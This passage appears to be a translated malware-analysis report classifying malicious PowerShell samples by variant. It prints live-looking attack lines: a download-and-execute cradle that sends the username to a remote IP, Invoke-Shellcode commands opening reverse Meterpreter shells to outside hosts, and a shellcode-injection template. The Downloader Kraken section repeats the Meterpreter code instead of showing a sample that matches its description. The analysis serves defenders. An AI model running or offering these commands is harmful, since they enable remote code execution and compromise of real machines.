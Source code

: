 ```
$x=$Env:username;$u="http://54.213.195[.]138/s2.txt?u=" + $x;$p = [System.Net.WebRequest]::GetSystemWebProxy();$p.Credentials=[System.Net.CredentialCache]::DefaultCredentials;$w=New-Object net.webclient;$w.proxy=$p;$w.UseDefaultCredentials=$true;$s=$w.DownloadString($u);Invoke-Expression -Command $s;
```

**4.9 Meterpreter RHTTP（6个样本，占比0.15%）**

此类变种下载在PowerShell Empire或PowerSploit中使用的Invoke-Shellcode脚本，然后调用该函数生成一个反弹型HTTPS Meterpreter shell。

这6个样本中，有5个样本是从GitHub上下载脚本。

GitHub版：

```
iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/code_execution/Invoke-Shellcode.ps1"); Invoke-Shellcode -Payload windows/meterpreter/reverse_http -Lhost 88.160.254[.]183 -Lport 8080 -Force
```

非GitHub版：

```
IEX (New-Object Net.WebClient).DownloadString('http://el8[.]pw/ps/CodeExecution/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 65.112.221[.]34 -Lport 443 –Force
```

**4.10 Downloader Kraken（5个样本，占比0.12%）**

此类变种的命名方式来源于其下载的可执行文件名（“Kraken.jpg”），它使用了与Downloader DFSP类似的下载技术。不同的一点是此类变种不直接使用“$env”环境变量，而是使用System.IO.Path来获得$TEMP目录的路径。

```
IEX (New-Object Net.WebClient).DownloadString('http://el8[.]pw/ps/CodeExecution/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 65.112.221[.]34 -Lport 443 –Force
```

**4.11 AppLocker Bypass（4个样本，占比0.12%）**

此类变种使用PowerShell运行regsvr32工具以绕过Windows的AppLocker策略。该技术最早由Casey Smith公布，利用该技术使得regsvr32在注销COM对象时脚本能够得到执行机会。

**（二）嵌入型载荷类别**

此类PowerShell代码的主要目的是运行嵌入型载荷（如shellcode）。

**4.12 Shellcode注入（1,147个样本，占比27.89%）**

**4.13 Unicorn（611个样本，占比14.90%）**

**4.14 SET（199个样本，占比4.85%）**

**4.15 Unicorn修改版（14个样本，占比0.34%）**

我在前文描述了SET和Magic Unicorn的Shellcode注入技术的实现方法，我决定利用这种shellcode注入模板对这类变种进行归类（4.12-4.15）。以下是“Shellcode注入”变种的一个样本，来源于Matt Graeber的原始博文，你可以从中发现该样本与SET和Magic Unicorn的相似性。

```
$c = '[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);';$w = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru;[Byte[]];[Byte[]]$z = 0xbf,&amp;lt;SHELLCODE&amp;gt;,0x19;$g = 0x1000;if ($z.Length -gt 0x1000){$g = $z.Length};$x=$w::VirtualAlloc(0,0x1000,$g,0x40);for ($i=0;$i -le ($z.Length-1);$i++) {$w::memset([IntPtr]($x.ToInt32()+$i), $z[$i], 1)};$w::CreateThread(0,0,$x,0,0,0);for (;;){Start-sleep 60};
```
